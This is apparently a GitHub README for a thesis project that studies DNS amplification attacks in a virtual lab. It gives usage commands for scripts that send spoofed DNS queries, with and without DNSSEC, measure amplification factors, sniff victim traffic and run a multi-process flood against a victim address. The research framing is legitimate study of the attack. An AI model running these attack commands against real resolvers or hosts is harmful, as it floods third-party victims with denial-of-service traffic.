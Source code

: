 # Development and Study of a DNS Amplification Attack in a Virtual Environment

The aim of this project was to implement the scripts on this Github repository in order to study the DNS Amplification attack in a controlled virtual environment. You will find various scripts within this project.

## DNS Query Script for Amplification Rate Calculation: sendQuery.py

To launch this script, simply run the following command from the folder containing the entire project on the attacker machine.

Without DNSSEC:
```bash
sudo python3.9 attack/sendQuery.py -s <victimAddress> -d 192.168.68.53 -q amaury.thesis.io -t 60
```
With DNSSEC:
```bash
sudo python3.9 attack/sendQuery.py -s <victimAddress> -d 192.168.68.53 -q amaury.thesis.io -t 60 --dnssec
```

## DNS Server Amplification Rate Calculation Script: calculateAF.py

To launch this script, simply run the following command from the folder containing the entire project on the server machine.

Without DNSSEC:
```bash
sudo python3 server/calculateAF.py -s <victimAddress> -d 192.168.68.53 -q amaury.thesis.io
```
With DNSSEC:
Without DNSSEC:
```bash
sudo python3 server/calculateAF.py -s <victimAddress> -d 192.168.68.53 -q amaury.thesis.io --dnssec
```

## DNS Traffic Sniffing Script: viewTraffic.py

To launch this script, simply run the following command from the folder containing the entire project on the victim machine.

Without DNSSEC:
```bash
sudo python3 victim/viewTraffic.py
```
With DNSSEC:
```bash
sudo python3 victim/viewTraffic.py --dnssec
```

## DNS Amplification Attack Script: dnsAttack.py

To launch this script, simply run the following command from the folder containing the entire project on the attacker machine.

Without DNSSEC:
```bash
sudo python3.9 attack/dnsAttack.py -s <victimAddress> -d 192.168.68.53 -q amaury.thesis.io -t 60 -n <Number of process>
```
With DNSSEC:
```bash
sudo python3.9 attack/dnsAttack.py -s <victimAddress> -d 192.168.68.53 -q amaury.thesis.io -t 60 -n <Number of process> --dnssec
```
